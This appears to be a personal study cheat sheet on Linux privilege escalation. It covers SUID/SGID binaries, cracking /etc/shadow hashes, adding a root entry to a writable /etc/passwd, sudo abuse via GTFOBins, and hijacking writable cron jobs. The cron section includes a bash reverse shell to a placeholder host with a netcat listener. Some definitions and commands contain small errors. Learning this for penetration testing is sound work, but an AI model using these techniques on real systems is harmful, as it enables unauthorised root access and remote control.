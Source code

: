# Privledge Escalation (Linux)
## Definitions
- **Privilege escalation:** the process of increasing your account permissions to gain unauthorised access to resources. Privilege escalation allows up to:
	- Access resources and documents
	- Change system configurations
	- Establish persistence to access the machine later
	- Etc.
- **Horizontal escalation:** the process of getting access to a different account with the same permissions.
- **SUID (Set user ID) binary:** permissions set for a file (read/write/execute).
	- Permissions are indicated using a single letter and have a corresponding numeral value:
		- r = read = 4
		- w = write = 2
		- x = execute = 1
	- The maximum number of bits that can be used to set permission for each user is 7, which is a combination of read (4), write (2), and execute (1) operations.
	- cmd `find / -perm -u=s -type f 2>/dev/null` can be used to find SUID binaries within a file system
		- `find`- Initiates the "find" command  
		- `/` - Searches the whole file system  
		- `-perm` - searches for files with specific permissions  
		- `-u=s` - Any of the permission bits _mode_ are set for the file. Symbolic modes are accepted in this form
		- `-type f` - Only search for files  
		- `2>/dev/null` - Suppresses errors
- **/etc/passwd:** is a plain text file where essential login information is stored. Lists the system's user account info including user ID, group ID, home directory, shell, and more.
	- An entry looks as follows: `test:x:0:0:root:/root:/bin/bash`
		- The colon `:` symbol is used to separate different fields
		- Username
		- Password - indicated by the `x`
		- User ID (UID) - Every user is assigned an ID
			- 0 ; root
			- 1 - 99 ; predefined accounts
			- 100 - 999 ; system or administrative and system accounts/groups
		- Group ID (GID) - primary group ID (stored in /etc/group file)
		- User ID Info - comment feild can be used to add additional info such as full name and contact info
		- Home directory - the absolute path to the user's home directory
		- Command/shell - the absolute path of a command or shell

## Exploiting SUID/GUID Files
In Linux, SUID gives temporary permissions to a user to run the program/file with the permission of the file owner.
Instead of rwxrwxrwx -> rwSrwSrwx
==rwS==rwxrwx - **SUID** - User executes the file with permissions of the *file owner*
rwx==rwS==rwx - **SGID** - User executes the file with the permission of the *group owner.*
1) check for files with the SUID/GUID bit set 
	`find / -perm -u=s -type f 2>/dev/null`
	`find / -user root -perm -4000 print 2>/dev/null`
	`find / -user root -perm -4000 -exec ls -ldb {} \;`
2) Look for any files that look out of the ordinary
3) run the binary via file path

## Exploiting /etc/passwd
### Cracking password hashes
Access the root user account by cracking the root password hash
1)  Copy password hash from `/etc/shadow` to file on a personal machine
2) Crack hash with hashcat or john

### Writing to /etc/passwd
Writing to the **/etc/passwd** file should be limited to a superuser or root account. Suppose a regular user account has writable permissions to the file. In that case, we can exploit that vulnerability to create a root user.

If we have to write permissions to the /etc/passwd file, we can write a new entry and create a root account by setting the UID, GID, and shell to root, allowing us to log in as our root user.

1) First, create a password hash to add to the new account:
	`openssl passwd -1 -salt <salt> <password>`
	or
	`openssl passwd <New Password>`
2) Add your new user by editing the **/etc/passwd** file (`nano /etc/passwd`)  and the following user format:
	 `<username>:<hashedPassword>:0:0:root:/root:/bin/bash`
3) Login as your new root user `su <username>`

## Exploiting sudo
There are multiple programs that we can exploit for privilege escalation as long as we can run them with `sudo`
1) List the programs that the user is allowed to run with sudo:
	`sudo -l`
2) Search [GTFOBins](https://gtfobins.github.io/) for each program to see if any are exploitable

## Exploiting Cron Jobs
Cron jobs are scripts that are scheduled to run on the system at a specific time or interval. We can view available cron jobs via `/etc/crontab` and exploit the ones we can write to.
1) read crontab: `cat /etc/crontab`
2) find files on the system `locate exampleCronJob.sh`
3) Check to see if we can write to it: 
	`ls -l /filepath/exampleCronJob.sh`
4) add to script to connect to a personal computer:
	```
	#!/bin/bash  
	bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1
	```
5) Set up Netcat listener and wait for the script to run: `nc -nvlp <LPORT>`



## Other Resources
- https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md
- https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html
- https://payatu.com/guide-linux-privilege-escalation